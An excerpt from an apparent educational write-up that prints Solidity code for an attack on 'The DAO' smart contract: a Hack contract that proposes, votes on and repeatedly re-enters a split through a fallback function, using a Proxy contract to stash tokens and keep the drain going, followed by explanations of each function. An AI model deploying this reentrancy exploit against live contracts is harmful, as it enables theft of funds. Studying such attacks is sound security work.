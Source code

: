 ```javascript
    calls_to_make = 1;
  }

  function makeSplitProposal() {
    // 0x93a80 == 604800 == 1 week in seconds
    bytes memory transactionData;
    proposalID = DAO.newProposal(this, 0x0, "Lonely, so Lonely", transactionData, 0x93a80, true);
  }

  function voteYesOnProposal() {
    DAO.vote(proposalID, true);
  }

  function fillProxy() {
    uint balance = DAO.balanceOf(this);
    DAO.transfer(address(proxy), balance);
  }

  function splitDAO() {
    calls += 1;
    DAO.splitDAO(proposalID, this);
  }

  function runHack(uint _calls_to_make) {
    calls = 0;
    calls_to_make = _calls_to_make;
    proxy.empty();
    splitDAO();
  }

  function() {
    if (calls < calls_to_make) {
      splitDAO();
    } else {
      fillProxy();
    }
  }
}
```

* First, this contract file contains two contracts: A Proxy contract, and a Hack contract. The Hack contract performs the splits, and is the main entity and address that exploits the DAO. The Proxy contract is a place for the Hack contract to stash its DAO tokens before they get flushed at the end of one run through the loop. Because they're stashed in a different address, the final iteration will have no DAO tokens to zero out, and thus we can continue the hack indefinitely.
* `makeSplitProposal()`, `voteYesOnProposal()`, and `splitDAO()` (when called on its own), are all functions required to set up the hack. Since the Hack contract is the main entity that holds the DAO tokens, it must perform this setup in order to execute the hack later.
* `fillProxy()` takes the Hack contract's DAO tokens and transfers them to the address of the Proxy contract, a vital part of making the hack indefinite. As well, `proxy.empty()` returns the tokens back to the Hack contract.
* `runHack()` gets the hack started, and the fallback function `function() {...}` runs the hack until we've reached the maximum amount of calls we can make within our given gas limit.

